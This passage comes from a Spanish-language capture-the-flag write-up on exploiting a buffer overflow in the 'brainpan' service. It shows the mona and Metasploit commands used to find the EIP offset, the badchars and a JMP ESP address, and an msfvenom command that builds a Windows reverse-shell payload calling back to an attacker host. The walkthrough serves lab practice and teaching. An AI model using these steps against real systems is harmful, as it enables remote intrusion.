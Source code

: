     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000

![13]

Enviamos este patrón en el payload de nuestro **exploit.py**. Cuando crasheé el servicio, buscamos el offset exacto en el que se sobreescribe el EIP.

    !mona findmsp -distance 1000

El análisis retorna que el offset exacto es de 524, es decir, necesitamos enviar 524 caracteres para llegar al momento exacto donde inicia el EIP.

![14]

Colocamos "BBBB" en la variable **retn** para corroborar que podamos sobreescribir el registro EIP, ya habiendo colocado el offset correcto en el script. Como se observa, esto es posible (EIP vale 42424242).

![15]

## Encontrando los badchars
El siguiente paso es buscar los badchars del servicio. Iniciamos creando el bytearray base en mona contemplando el badchar \x00 por defecto:

    !mona bytearray -b "\x00"

Colocamos la cadena de bytes en nuestro script, contemplando igualmente el \x00 por defecto y lo ejecutamos. Hacemos el comparativo de ambos con ayuda de mona para detectar los badchars:

    !mona compare -f c:\mona\brainpan\bytearray.bin -a <DIRECCION DEL ESP>

![16]

Como podemos observar, en la primera pasada logramos obtener **Unmodified**, por lo que no existen más badchars para este binario.

## Buscando el JMP ESP
Ahora, buscamos la dirección de la instrucción JMP ESP en el binario o su biblioteca que tenga el ASLR y SEH deshabilitados y que no contengan el badchar encontrado.

    !mona jmp -r esp -cpb "\x00"

![17]

## Creación del script para explotar el BoF
Copiamos la dirección encontrada en nuestro script, añadimos los NOP's y creamos nuestro payload con ayuda de msfvenom:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.2.69.66 LPORT=443 EXITFUNC=thread -b "\x00" -f c

Creamos una reverse shell que se conecte a nuestra máquina sin que empleé el badchar encontrado. Lo agregamos a la variable payload del *exploit.py* junto con los demás datos para el BoF.

![18]
